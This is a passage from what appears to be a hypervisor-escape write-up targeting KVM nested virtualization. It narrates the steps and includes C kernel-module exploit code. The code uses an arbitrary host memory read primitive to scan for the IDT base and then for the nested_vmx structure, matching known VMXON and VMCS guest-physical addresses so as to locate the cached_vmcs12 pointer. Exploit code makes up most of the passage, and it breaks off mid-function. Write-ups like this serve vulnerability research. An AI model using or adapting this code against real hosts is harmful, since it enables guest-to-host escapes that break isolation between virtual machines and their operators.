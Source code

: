 ```c
            found_offset = pos_offset;
            break;
        }

        neg_val = read_guy(neg_offset);
        if (neg_val == IDT_BASE) {
            found_val = neg_val;
            found_offset = neg_offset;
            break;
        }
    }
    if (found_val == 0) {
        pr_info("[exp]: IDT NOT FOUND :(\n");
        *l1_vmcs_offset = 0;
        return 0;
    } else {
        pr_info("[exp]: Found IDT in l1 at offset %lld; value: %llx\n", found_offset, found_val);
        *l1_vmcs_offset = found_offset;
        return 1;
    }
}
```
### finding the address of the nested VMCS

After finding this, I wanted to figure out the virtual address the arb read/write is relative to in the host.
I realized as I was reading the `handle_vmread` function that the `nested_vmx` struct holds a pointer to the nested guest's VMCS: `cached_vmcs12`.
It also contains some fields we know the values of: `vmxon_ptr` and `current_vmptr` which are the guest physical addresses for the VMXON region and VMCS we created.
```c
struct nested_vmx {
    /* Has the level1 guest done vmxon? */
    bool vmxon;
    gpa_t vmxon_ptr;
    bool pml_full;

    /* The guest-physical address of the current VMCS L1 keeps for L2 */
    gpa_t current_vmptr;
    /*
     * Cache of the guest's VMCS, existing outside of guest memory.
     * Loaded from guest memory during VMPTRLD. Flushed to guest
     * memory during VMCLEAR and VMPTRLD.
     */
    struct vmcs12 *cached_vmcs12;
    ...
}
```

So we can just scan for those two values:
```c
static noinline int find_nested_vmx(uint64_t *nested_vmx_offset) {
    unsigned long long pos_offset = 0, neg_offset = 0;
    uint64_t zero_val = 0, pos_val = 0, neg_val = 0;
    uint64_t found_val = 0, found_offset = 0;
    uint64_t i = 0;

    zero_val = read_guy(0ull);
    pr_info("vmcs12[0] = %llx\n", zero_val);

    for (i = 1; i < (0x4000*0x200); i += 2) {
        pos_offset = i;
        neg_offset = -i;

```